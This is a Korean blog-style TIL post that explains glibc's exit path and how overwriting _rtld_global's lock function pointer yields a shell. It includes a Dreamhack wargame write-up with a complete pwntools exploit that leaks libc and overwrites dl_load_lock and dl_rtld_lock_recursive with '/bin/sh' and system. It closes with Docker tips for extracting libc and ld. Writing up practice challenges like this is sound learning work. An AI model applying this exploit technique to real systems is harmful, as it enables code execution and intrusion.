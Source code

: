 ```yaml
---
title:  "TIL: Overwriting \_rtld\_global, Getting libc from Dockerfile"
excerpt: "2022.09.09 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## \_rtld\_global

### 프로그램 종료 과정

아래와 같은 C 프로그램이 종료되는 과정을 살펴보자.

```c
int main() {
  return 0;
}
```

1. stack 최상단에 있는 `__libc_start_main+231`을 실행한다.
2. `__libc_start_main+231`는 `__GI_exit` 함수를 호출한다.
3. `__GI_exit`는 `__run_exit_handlers`를 실행한다.
4. `__run_exit_handlers`의 코드
    
    ```c
    void
    attribute_hidden
    __run_exit_handlers (int status, struct exit_function_list **listp,
    		     bool run_list_atexit, bool run_dtors)
    {
    	  const struct exit_function *const f = &cur->fns[--cur->idx];
    	  switch (f->flavor)
    	    {
    	      void (*atfct) (void);
    	      void (*onfct) (int status, void *arg);
    	      void (*cxafct) (void *arg, int status);
    	    case ef_free:
    	    case ef_us:
    	      break;
    	    case ef_on:
    	      onfct = f->func.on.fn;
    #ifdef PTR_DEMANGLE
    	      PTR_DEMANGLE (onfct);
    #endif
    	      onfct (status, f->func.on.arg);
    	      break;
    	    case ef_at:
    	      atfct = f->func.at;
    #ifdef PTR_DEMANGLE
    	      PTR_DEMANGLE (atfct);
    #endif
    	      atfct ();
    	      break;
    	    case ef_cxa:
    	      cxafct = f->func.cxa.fn;
    #ifdef PTR_DEMANGLE
    	      PTR_DEMANGLE (cxafct);
    #endif
    	      cxafct (f->func.cxa.arg, status);
    	      break;
    	    }
    	}
    ```
    
    - `exit_function` structure의 member variable에 따라 함수를 호출한다. return을 실행해 프로그램을 종료할 경우 `_dl_fini`를 호출한다.
5. `_dl_fini`의 코드
    
    ```c
    # define __rtld_lock_lock_recursive(NAME) \
      GL(dl_rtld_lock_recursive) (&(NAME).mutex)
      
    void
    _dl_fini (void)
    {
    #ifdef SHARED
      int do_audit = 0;
     again:
    #endif
      for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
        {
          /* Protect against concurrent loads and unloads.  */
          __rtld_lock_lock_recursive (GL(dl_load_lock));
    ```
    
    - `__rtld_lock_lock_recursive`를 `_dl_load_lock`을 인자로 실행한다.
    - 매크로를 살펴 보면 `__rtld_lock_lock_recursive`는 `dl_rtld_lock_recursive`라는 함수 pointer이다.
    - `dl_rtld_lock_recursive`는 `_rtld_global`이라는 struct의 member variable로, `rtld_lock_default_lock_recursive`라는 함수의 주소를 저장하고 있다. 이 함수 포인터가 저장된 영역은 **읽기 및 쓰기 권한**이 존재하기 때문에 `dl_rtld_lock_recursive`**를 overwrite할 수 있다.**

### Exploit 방법

프로그램 종료 과정 중에 실행되는 `__rtld_lock_lock_recursive (GL(dl_load_lock));`가 shell을 실행하도록 `dl_rtld_lock_recursive`와 `dl_load_lock`을 각각 `system`, `"/bin/sh"`로 overwrite한다.

## Wargame: [Overwrite \_rtld\_global](https://dreamhack.io/wargame/challenges/360/)

```c
#include <stdio.h>
#include <stdlib.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  long addr;
  long data;
  int idx;

  init();

  printf("stdout: %p\n", stdout);
  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        printf("addr: ");
        scanf("%ld", &addr);
        printf("data: ");
        scanf("%ld", &data);
        *(long long *)addr = data;
        break;
      default:
        return 0;
    }
  }
  return 0;
}
```

### Vulnerability Scanning

- `*(long long *)addr = data;` → Arbitrary address writing is available
- `printf("stdout: %p\n", stdout);` → Can get libc_base

### Exploit

```python
from pwn import *

#p = process(["./ow_rtld"], env={'LD_PRELOAD':'./libc-2.27.so_18.04.3'})
p = remote("host3.dreamhack.games", 13163)
#gdb.attach(p)
#libc = ELF("./libc-2.27.so_18.04.3")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

p.recvuntil("stdout: ")

stdout = int(p.recvline()[:-1], 16)
libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]
ld_base = libc_base + 0x3f1000

rtld_global = ld_base + ld.symbols["_rtld_global"]
dl_load_lock = rtld_global + 2312
dl_rtld_lock_recursive = rtld_global + 3840

system = libc_base + libc.symbols["system"]

p.sendlineafter("> ", "1")
p.sendlineafter("addr: ", str(dl_load_lock))
p.sendlineafter("data: ", str(u64(b"/bin/sh\x00")))

p.sendlineafter("> ", "1")
p.sendlineafter("addr: ", str(dl_rtld_lock_recursive))
p.sendlineafter("data: ", str(system))

p.sendafter("> ", "2")

p.interactive()
```

- gdb를 이용해 libc_base와 ld_base 사이의 offset, 그리고 ld_base로부터의 rtld_global까지의 offset을 구한다.
- Arbitrary address writing을 이용해 `__dl_load_lock`을 `"/bin/sh"`, `__dl_rtld_lock_recursive`를 `system`으로 overwrite한다.

### 번외: Dockefile에서 libc, ld 파일 빼내오기

문제에서 제공되는 Dockerfile에서 libc 파일과 ld 파일을 빼내오는 방법을 몰라 꽤 헤맸었다.. 방법을 여기에 적어둔다.

1. Dockerfile build하기 - Dockerfile이 있는 directory에서 `docker build -t temp:1  .`
2. Image run하기 - `docker run [image ID]`
3. cmd를 **administrator mode**로 실행하기
4. `docker cp <옵션> <호스트 내부 파일 경로> <컨테이너 명>:<컨테이너 디렉토리 경로>`
    
    이때 만약 symlink 파일이 생성된다면 **-L option**을 추가해보자.